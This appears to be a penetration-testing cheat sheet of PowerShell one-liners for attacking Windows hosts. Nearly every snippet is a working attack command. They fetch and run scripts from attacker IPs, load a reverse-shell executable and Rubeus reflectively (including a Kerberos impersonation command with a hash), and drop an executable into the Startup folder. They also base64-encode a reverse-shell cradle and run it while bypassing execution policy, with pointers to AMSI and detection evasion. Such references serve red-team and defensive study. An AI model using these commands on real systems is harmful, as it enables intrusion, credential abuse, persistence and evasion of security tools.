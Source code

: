 ### PowerShell one-liners

#### Load PowerShell script reflectively

Proxy-aware:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
```

Non-proxy aware:

```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
```

> Again, this will likely get flagged 🚩. For opsec-safe download cradles, check out [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter).

#### Load C# assembly reflectively

Ensure that the referenced class and main methods are Public before running this. Note that a process-wide AMSI bypass may be required for this, [refer here for details](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/).

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())

# Download and run Rubeus, with arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

#### Download file

```powershell
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Incnspc64.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Incnspc64.exe"
```

#### Encode command

Encode one-liner:

```powershell
$command = 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Or, the Linux version of the above:

```bash
echo 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")' | iconv -t utf-16le | base64 -w 0
```

Encode existing script, copy to clipboard:

```powershell
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('c:\path\to\PowerView.ps1')) | clip
```

Run it, bypassing execution policy.

```powershell
Powershell -EncodedCommand $encodedCommand
```

> If you have Nishang handy, you can use [Invoke-Encode.ps1](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1).
